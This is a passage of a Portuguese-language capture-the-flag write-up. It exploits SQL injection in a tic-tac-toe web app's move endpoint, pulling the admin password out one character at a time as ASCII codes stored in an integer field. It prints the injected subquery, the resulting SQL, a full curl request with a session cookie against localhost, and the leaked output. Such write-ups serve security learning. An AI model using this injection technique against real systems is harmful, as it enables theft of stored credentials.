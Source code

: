 O `X` agora inclui o valor `3`, resultado da subquery que inserimos. Ataque comprovado, ou seu dinheiro de volta.

## Hacktion Plan

Temos um SQL injection, mas ainda precisamos extrair a flag, que é a senha do Admin, codificada em base64.

Aqui temos uma limitação: só conseguimos inserir um valor inteiro, já que o campo `POSITION`, da tabela `moves`, é do tipo `INTEGER`.

Nada que seja um problema, afinal podemos inserir várias linhas e representar qualquer informação digital como uma sequência de números ;)

Neste caso, podemos gravar o código de cada caractere da senha como um novo `POSITION`. Em teoria, isso deveria ser um problema (posições já ocupadas), mas não tem uma `constraint` no banco impedindo isso, então... tá pa noiz.

Vamos testar essa hipótese, injetando uma subquery que insere o código ASCII do primeiro caractere da senha do `admin`. Como o `admin` é o primeiro a ser incluído, o ID do usuário dele é `1`.

```
position=(select ord(substring(password, 1, 1)) from users where id = 1)
```

Obs: Dá pra buscar o usuário admin também pelo nome, mas aí você precisa fazer um bypass no bloqueio de aspas. Deixo como exercício.

O SQL gerado fica assim:

```sql
insert into moves
  (game_id, position, value) 
values (1, (select ord(substring(password, 1, 1)) from users where id = 1), "X")
```

Partiu `curl`:

```bash
curl 'http://localhost:5000/game/8436bd1e-4436-4f41-8ea0-9d39da8d8036/move' \
  -H 'Content-Type: application/x-www-form-urlencoded;charset=UTF-8' \
  -H 'Cookie: session=eyJ1c2VyX2lkIjoyLCJ1c2VybmFtZSI6Im5lcHR1bmlhbjEifQ.Y5MZ8Q.jwVLLcNg7oQKDcVVC6ZC8lMol80' \
  --data-raw 'position=(select%20ord(substring(password%2C%201%2C%201))%20from%20users%20where%20id%20%3D%201)'
```

Retorno do `/info`:

```json
{
    "O": [7],
    "X": [1,2,3,89],
    "game_id": 3,
    "game_key": "addb868e-429e-4ef2-b2d1-099ca950a346",
    "winner": "?"
}
```
